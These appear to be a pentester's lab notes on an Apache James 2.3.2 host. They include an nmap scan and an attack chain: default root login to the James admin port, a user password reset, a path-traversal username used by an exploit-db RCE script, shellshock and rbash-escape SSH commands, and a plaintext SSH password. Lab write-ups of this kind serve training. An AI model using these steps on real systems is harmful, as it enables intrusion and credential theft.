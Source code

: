 # ip
10.11.1.72

# nmap scan
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.8p1 Debian 7ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp?
80/tcp   open  http    Apache httpd 2.2.20 ((Ubuntu))
110/tcp  open  pop3?
111/tcp  open  rpcbind 2-4 (RPC #100000)
119/tcp  open  nntp?
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## OS 
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

## Info about ports
* SSH:  SSH-2.0-OpenSSH_5.8p1 Debian-7ubuntu1 ( service.version=5.8p1 openssh.comment=Debian-7ubuntu1 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:5.8p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=11.10 os.cpe23=cpe:/o:canonical:ubuntu_linux:11.10 service.protocol=ssh fingerprint_db=ssh.banner)



## Server
Apache/2.2.20
JAMES Remote Administration Tool 2.3.2

## Programming language
PHP 

## Database 


## Pages
    

# findings                                                                                                              

* Remote code execution: https://www.exploit-db.com/exploits/35513
* nc 10.11.1.72 4555 => to enter to James webserver, pw and username is root
* change pw of john user: Resetted John pw to: `setpassword john 123456`
* use `telnet 10.11.1.72 110` to login as John under pop3 => see: https://dominicbreuker.com/post/htb_solidstate/

# Users
Users: 
user: marcus
user: john
user: mailadmin
user: jenny
user: ../../../../../../../../etc/bash_completion.d
user: ryuu
user: joe45

# SSH

## credentials
username: ryuu
password: QUHqhUPRKXMo4m7k

## rhost exploits
https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
might be interesting:
* `ssh username@IP -t "() { :; }; /bin/bash" (shellshock)`
* `ssh username@IP -t "bash --noprofile"`

# Marcus creds: 
/home/marcus

## James server

` python 35513.py 10.11.1.72` adjust payload to establish interactive shell
 fix path with: `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` to have ls

# Evidence
* connect to ssh with `ssh ryuu@10.11.1.72` => we get rbash which is a restricted shell
* https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

